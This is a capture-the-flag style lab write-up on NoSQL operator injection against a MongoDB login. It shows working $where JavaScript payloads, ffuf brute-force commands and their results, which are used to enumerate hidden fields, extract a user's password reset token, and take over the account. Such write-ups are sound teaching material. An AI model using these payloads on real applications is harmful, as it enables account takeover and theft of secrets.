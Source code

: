 # Exploiting NoSQL operator injection to extract unknown fields
# Objective
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, log in as `carlos`.

# Solution
## Analysis

|![](Images/image-24.png)|
|:--:| 
| *Malicious payload leads to account lock* |

Using the following payloads it is possible to change application response by changing value after `$where` statement:
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"0"}
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"1"}
```

|![](Images/image-25.png)|
|:--:| 
|![](Images/image-26.png)|

## Extracting field names
The following payload will allow to retrieve field names letter by letter. When the letter is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password".
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
```
### Burp Suite enumeration
|![](Images/image-27.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-28.png)|
| *Payload settings* |
|![](Images/image-29.png)|
| *Payload settings* |
|![](Images/image-30.png)|
| *Results* |

### FFUF enumeration
```
ffuf -request request.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```

|![](Images/image-31.png)|
|:--:| 
| Enumeration for 0 - field name `id` |
|![](Images/image-32.png)|
| Enumeration for 1 - field name `username` |
|![](Images/image-33.png)|
| Enumeration for 2 - field name `password`|
|![](Images/image-34.png)|
| Enumeration for 3 - field name `email` |
|![](Images/image-35.png)|
| Enumeration for 4 - field name `pwResetTkn`|

Enumeration for `4` result in internal server errors.

Website `/forgot-password` is used to validate token:
|![](Images/image-36.png)|
|:--:| 
| Token test |

## Password enumeration
### Burp Suite enumeration
The following payload will allow to retrieve carlos's password reset token letter by letter. When the letter in token is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password":
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"this.pwResetTkn.match('^.{§0§}§a§.*')"}
```
|![](Images/image-37.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-38.png)|
|:--:| 
| *Results* |

### FFUF enumeration
```
ffuf -request req.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```
Result:
```
[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 220ms]
    * FUZZLETTER: a
    * FUZZNUM: 6

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: c
    * FUZZNUM: 3

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 55ms]
    * FUZZLETTER: e
    * FUZZNUM: 10

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 58ms]
    * FUZZLETTER: f
    * FUZZNUM: 4

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 81ms]
    * FUZZLETTER: f
    * FUZZNUM: 5

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 54ms]
    * FUZZLETTER: c
    * FUZZNUM: 14

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 271ms]
    * FUZZLETTER: 1
    * FUZZNUM: 11

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 66ms]
    * FUZZLETTER: 2
    * FUZZNUM: 12

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 57ms]
    * FUZZLETTER: 2
    * FUZZNUM: 15

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 62ms]
    * FUZZLETTER: 3
    * FUZZNUM: 0

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: 5
    * FUZZNUM: 1

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 56ms]
    * FUZZLETTER: 6
    * FUZZNUM: 13

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 8

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 7

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 49ms]
    * FUZZLETTER: 9
    * FUZZNUM: 2

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 500ms]
    * FUZZLETTER: 9
    * FUZZNUM: 9
```
Token for password reset: `359cffa889e126c2`

## Password reset

|![](Images/image-40.png)|
|:--:| 
| *Requesting password reset page* |
|![](Images/image-39.png)|
| *Resetting password* |